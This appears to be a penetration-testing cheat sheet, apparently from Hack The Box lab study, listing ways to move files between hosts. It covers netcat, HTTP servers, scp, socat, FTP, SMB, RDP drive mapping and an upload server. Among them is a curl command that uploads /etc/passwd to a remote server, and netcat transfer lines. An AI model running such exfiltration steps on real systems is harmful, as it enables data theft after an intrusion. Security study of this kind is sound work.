 # Base64

**Sender:** `cat file | base64 -w 0;echo` <br>
**Reciever** `echo -n base64payload | base64 -d > filename`   Confirm md5 hash match in linux: `md5sum file`

# Netcat
**Sender:** `nc  10.10.10.10 4444 < file`<br>
**Reciever:** `nc -lvp 4444 > file`

# Web 

**Sender:** `python3 -m http.server 8080` <br>
**Reciever:** `wget http://10.10.10.10:8080/file` or `curl`

# SSH
**Sender:** `scp file username@hostname:/home/user/`<br>
**Reciever:** `scp username@hostname:/root/file .`<br>

# Socat

**Sender:** `socat TCP:192.168.0.107:4545 /home/kali/transfer.file`<br>
**Reciever:** `socat TCP-LISTEN:4545 /home/hunter/transfer.file`

# FTP
**Sender:** `python3 -m pyftpdlib -p21 -w` or `python3 -m pyftpdlib -u admin -P 8618` with user and password<br>
**Receiever** `ftp IP port` and put, get commands | From windows: `ftp` then `open`

# SMB
Without password from `/usr/share/doc/python3-impacket/examples`<br>
**Sender:** `python3 smbserver.py sharename /home/hunter`<br>
**Receiever:** `smbclient //IP/Sharename`<br>
With password:<br>
**Sender:** `python3 smbserver.py -username admin -password 8618 adminshare /home/hunter`<br>
**Reciever:** `smbclient -U admin //192.168.0.107/adminshare` <br>

# Xfreerdp
```bash
xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer
```

# Upload server

1) Create openssl certificate:
```bash
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
```
2) Start upload server:
```bash
sudo python3 -m uploadserver 443 --server-certificate /location/server.pem
```
**Reciever:** `curl -X POST https://192.168.0.107/upload -F 'files=@/etc/passwd' --insecure` or browse web server to `/upload` location
